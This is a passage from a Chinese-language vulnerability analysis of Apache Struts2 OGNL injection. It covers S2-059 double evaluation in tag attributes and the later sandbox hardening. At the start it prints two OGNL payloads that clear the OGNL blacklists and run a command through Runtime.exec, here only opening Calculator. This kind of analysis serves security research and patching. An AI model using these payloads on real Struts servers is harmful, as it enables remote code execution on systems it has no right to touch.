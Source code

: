 第二个请求用来发送 payload

```
(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('open -a Calculator.app'))
```

或者写在同一个请求中发送两次也可：

```
%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames('').(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('open -a Calculator.app')))}
```


# S2-059

与 S2-029/S2-036 类似的漏洞点。

> 影响版本：Struts 2.0.0 - Struts 2.5.20
> 参考链接：https://cwiki.apache.org/confluence/display/WW/S2-059
> 描述：不正确的给标签属性添加 OGNL 解析，可能会造成二次解析导致 RCE。

这个漏洞通俗来讲，就是用户在配置模板或者配置文件时，对一些属性和参数使用 “${}” 和 “%{}” 包裹，进行强制计算， 就会导致 OGNL 二次解析。

早在 S2-029 和 S2-036 就有了类似的安全公告，但是我没有去做分析，因为此类漏洞的主要成因是用户的配置错误，就好像 SQL 注入漏洞的成因是用户把不受信任的输入带入了数据库查询语句一样，你只能让开发者背锅，你没办法说是框架的锅。而之前的 S2-012、S2-013、S2-014、S2-015，也可以归结到此类漏洞范围中。

其中 S2-029 官方描述受影响的标签为：

```html
<s:i18nname="%{#request.params}">su18</s:i18n>
<s:textname="%{#request.params}">su18</s:text>
```

S2-036 则描述 tag 内属性使用 `%{...}` 会导致 RCE。

而 S2-059 也是同样的漏洞。描述受影响的标签为 `<s:a id="%{id}">S2-059</s:a>`。简单搭建一个测试环境试一下：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296478.png)

这个漏洞的实际触发还是在解析标签时由 ComponentTagSupport 的子类（也就是各个标签不同类型）在使用 start 方法解析时，调用了 `Component#findString` 方法导致了表达式的解析。

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296486.png)

漏洞触发和调用过程之前都分析过，都是相似的，在这里就不重复了。我们同时关注一下这个漏洞影响的最高版本 Struts 2.5.20 版本中的安全更新。

在 Struts 2.5.17 之后，官方更新了 excludedClasses 和 excludedPackageNames，在 excludedClasses 中移除了 ognl 包中的内容，但是在 excludedPackageNames 中加入了 `com.opensymphony.xwork2.ognl.` 。

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296490.png)

OnglUtil 中各个属性的 set 方法由 public 改为了 protected。包括三个黑名单属性值，此时我们将不能直接调用 set 方法。

